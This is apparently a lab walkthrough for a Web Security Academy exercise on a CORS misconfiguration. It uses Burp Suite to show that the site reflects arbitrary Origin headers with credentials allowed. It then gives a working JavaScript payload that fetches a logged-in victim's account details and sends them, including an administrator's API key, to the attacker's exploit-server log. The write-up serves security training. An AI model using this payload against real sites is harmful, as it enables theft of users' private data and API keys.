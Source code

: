 ### First start with adding a Target Scope in BurpSuite for our target domain.
![image](https://user-images.githubusercontent.com/86168235/127899355-b86915fc-3270-4a4b-8902-5571fa7a49b3.png)

**Note**:- Optionally, you can set a filter to *Show only in-scope items* by clicking on the **Filter** bar under **Sitemap** subtab, so that you can focus on your target domain.

![image](https://user-images.githubusercontent.com/86168235/127899507-8d798439-4e1b-460c-bb4b-ad0afd0e324e.png)



Now, login using the credentials provided to you. In burp you'll see that there is **GET** request to page `/acccountDetails` which fetches the account details for the user logging in. In the response, you'll see there is a CORS header `Access-Control-Allow-Credentials: true` which means CORS is most likely enabled for the site. Send this request to Burp repeater.

![image](https://user-images.githubusercontent.com/86168235/127900481-0102d862-0913-4569-87d6-888b66176612.png)

On the repeater tab add a `Origin` header to it and send the request. You'll see that in the response there is a new CORS header `Access-Control-Allow-Origin` which sets request origin to the `Origin` we've set. This means we can set the Origin to any url we like.

![image](https://user-images.githubusercontent.com/86168235/127900629-9ef94994-d73b-49c4-ae68-d74a44287c1a.png)

## Exploitation

**Next**, `Go to exploit server` and add the following script in the **Body** box:-
```
<script>
const xhr = new XMLHttpRequest(),
    method = "GET",
    url = "https://acb61f441f1165dd803631dc00200052.web-security-academy.net/accountDetails";
    
function handler() {
    location='/log?body='+this.responseText;
    };
xhr.onload = handler;
xhr.open(method, url, true);
xhr.withCredentials = true;
xhr.send();

</script>
```
**Note**:- You've to edit the **url** to your own target url.

Now, if you click on `View exploit` you'll see that the response body of `/accountDetails` is shown in the url. Finally, click on `Deliver exploit to victim` and after that click on `Access log`. You'll notice that there is login by the `administrator` user and the response body along with the `api key` is logged in the exploit server.

![image](https://user-images.githubusercontent.com/86168235/127901447-b9940afd-40b8-4d05-a3ec-d63d41130405.png)
